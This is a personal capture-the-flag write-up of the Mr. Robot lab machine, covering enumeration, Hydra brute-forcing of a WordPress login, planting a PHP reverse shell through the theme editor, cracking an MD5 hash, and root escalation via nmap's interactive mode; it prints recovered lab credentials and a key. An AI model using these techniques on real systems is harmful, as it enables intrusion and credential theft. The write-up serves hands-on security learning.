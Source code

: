 # Introduction
seems to be a beginner friendly CTF... again :-/  Objective is to find 3 keys so lets get started

# Enumeration
### Nmap
```sh
$ cat nmap/initial
# Nmap 7.95 scan initiated Sun Nov  3 15:45:36 2024 as: nmap -p- -oN nmap/initial 10.10.192.6
Nmap scan report for 10.10.192.6
Host is up (0.039s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https
```
*lets check out the http(s) server...*
### http server
upon opening the page we are greeted with a grub boot screen and then this
![[Pasted image 20241103155517.png]]
#### Commands
**Prepare:**
	using this command shows us a video...
	[[prepare.webm]]
**Fsociety:**
	we get another video
	[[fsociety.webm]]
**Question:**
	this time we get a slideshow of images... *this is one of them*
	 ![[Pasted image 20241103160958.png]]
**Wakeup:**
	another video...
	[[wakeup.webm]]
**Inform:**
	gets us a screen with a bunch of news letters beneath a few words from mr.robot
	![[Pasted image 20241103160114.png]]
**Join:**
	we got greeted with a dialogue where he asked us to give him a email I tried it with a trash-mail but nothing arrived.. *probably because there is no mail server running on the machine*
	![[Pasted image 20241103161651.png]]

#### robots.txt
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```
these are 2 files on the http server 
* `fsocity.dic` a wordlist
* `key-1-of-3.txt` the first key

#### Fuzzing
```
 :: Method           : GET
 :: URL              : http://10.10.192.6/FUZZ
 :: Wordlist         : FUZZ: /home/janosch/git/labs/MrRobotCTF/loot/fsocity.dic
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response status: 404
________________________________________________

images                  [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 57ms]
css                     [Status: 301, Size: 231, Words: 14, Lines: 8, Duration: 38ms]
image                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 702ms]
license                 [Status: 200, Size: 309, Words: 25, Lines: 157, Duration: 39ms]
video                   [Status: 301, Size: 233, Words: 14, Lines: 8, Duration: 38ms]
feed                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 646ms]
audio                   [Status: 301, Size: 233, Words: 14, Lines: 8, Duration: 38ms]
admin                   [Status: 301, Size: 233, Words: 14, Lines: 8, Duration: 38ms]
blog                    [Status: 301, Size: 232, Words: 14, Lines: 8, Duration: 38ms]
Image                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 616ms]
intro                   [Status: 200, Size: 516314, Words: 2076, Lines: 2028, Duration: 44ms]
rss                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 646ms]
login                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 674ms]
readme                  [Status: 200, Size: 64, Words: 14, Lines: 2, Duration: 40ms]
Year201120102009200820072006200520042003200220012000199919981997199619951994199319921991199019891988198719861985198419831982198119801979197819771976197519741973197219711970196919681967196619651964196319621961196019591958195719561955195419531952195119501949194819471946194519441943194219411940193919381937193619351934193319321931193019291928192719261925192419231922192119201919191819171916191519141913191219111910190919081907190619051904190319021901 [Status: 403, Size: 657, Words: 16, Lines: 10, Duration: 38ms]
..Snip..(loop)
```
##### /login
![[Pasted image 20241103173548.png]]
looks like a Wordpress login screen lets try brute-forcing for the username

# Vulnerability Assessment
### /login
lets try to find the right request using burp
```HTTP
POST /wp-login.php HTTP/1.1
Host: 10.10.237.121
Content-Length: 100
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://10.10.237.121
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.237.121/wp-login.php
Accept-Encoding: gzip, deflate, br
Cookie: wordpress_test_cookie=WP+Cookie+check
Connection: keep-alive

log=user&pwd=pass&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.237.121%2Fwp-admin%2F&testcookie=1
```

# Exploitation

## Cracking Passwords in WordPress
built this command with hydra and found a username
```sh
$ hydra -L fsocity.dic -p pass http-post-form://10.10.237.121"/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid username" -I

..Snip..

[80][http-post-form] host: 10.10.237.121   login: Elliot   password: pass
[80][http-post-form] host: 10.10.237.121   login: elliot   password: pass
```
now lets try to find the password

_..brute forcing the password took a bit too long and I realized that I have to remove the duplicates from the wordlist.._
```sh
sort fsocity.dic | uniq > fsocity.dic.uniq
```
the size difference is quiet noticeable
```
-rw-r--r-- 1 janosch wheel 7245381 fsocity.dic
-rw-r--r-- 1 janosch wheel   96747 fsocity.dic.uniq
```

```zsh
$ hydra -l elliot -P fsocity.dic.uniq http-post-form://10.10.154.137"/wp-login.php:log=^USER^&pwd=^PASS^:F=The password you entered for the username" -I
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-05 15:14:16
[DATA] max 16 tasks per 1 server, overall 16 tasks, 11452 login tries (l:1/p:11452), ~716 tries per task
[DATA] attacking http-post-form://10.10.154.137:80/wp-login.php:log=^USER^&pwd=^PASS^:F=The password you entered for the username
[STATUS] 2036.00 tries/min, 2036 tries in 00:01h, 9416 to do in 00:05h, 16 active
[80][http-post-form] host: 10.10.154.137   login: elliot   password: ER28-0652
```

## RCE exploit via Theme
found this [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell) and used the Editor to replace the 404 Template with the exploit

```sh
$ nc -lvnp 1234                                                                                  ✘ 1
Connection from 10.10.52.84:37095
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 15:47:40 up 13 min,  0 users,  load average: 0.00, 0.01, 0.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$
```
We Got A shell  ^-^
# Privilege Escalation
now that we've gotten a shell we should have a look at the home folder

```sh
$ cd /home 
$ ls
robot
$ cd robot 
$ ls
key-2-of-3.txt
password.raw-md5
$ cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

so we cant access the second key because we don't have privilege but the password hash seems to be in the other file so we just need to crack it

...I did a ton of research because john and hash-cat didn't give any results(_using `fsocity.dic.uniq`_). Eventually I found a page called https://crackstation.net/  that was able to crack the hash!
![[Pasted image 20250304073703.png]]

so with the password we now just need to login as mr. robot


```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/$ su robot 
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:/$
```

as robot we were now able to get the second Key!

---

For Key number three we got the hint: "nmap" so I did some testing and turns out that nmap is installed on the system and robot has access to use it. After testing the interactive shell I found out that all commands I run with it are as root so I took a look at /root


```bash
robot@linux:/$ nmap --interactive 


nmap> !whoami
root
nmap> !ls /root
firstboot_done  key-3-of-3.txt
nmap> !cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
nmap> 

(snipped out all the useless stuff)
```
